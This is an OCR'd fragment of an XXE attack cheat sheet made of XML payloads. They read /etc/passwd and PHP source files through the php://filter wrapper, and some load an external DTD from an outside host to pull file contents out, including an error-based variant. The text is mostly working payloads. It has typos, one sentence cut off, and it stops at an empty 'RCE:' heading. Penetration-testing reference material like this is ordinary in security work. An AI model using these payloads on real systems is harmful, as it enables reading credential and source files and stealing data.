 **Reading local files:**

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "file:///etc/passwd">
]>
```

**Reading sorce code:**

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY badstuff SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

(Need PHP filter to be installed and active)

To overcome this we need to provide this DTD file:

```xml
<!ENTITY badstuff "%begin;%file;%end;">
```

General entities can#t be used in the DTD but only in the document itself - that's why 

Then we can use the parameter entity `%xxe`:

```xml
<!DOCTYPE name_or_parent_element [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/index.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "https://pentest-experts.com/xxe.dtd">
  %xxe;
]>
```

(Wrap file contents in `<![CDATA[` ... `]]>` to mark it as raw data and prevent XML parser errors)

Error based XXE:

We need to provide this DTD file:

```xml
<!ENTITY % file SYSTEM "file:///var/www/html/index.php">
<!ENTITY % badstuff "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

Then we can use this code to trigger the error:

```xml
<!DOCTYPE name_or_parent_element [ 
  <!ENTITY % xxe SYSTEM "https://pentest-experts.com/xxe.dtd">
  %xxe;
  %badstuff;
]>
```

**RCE:**
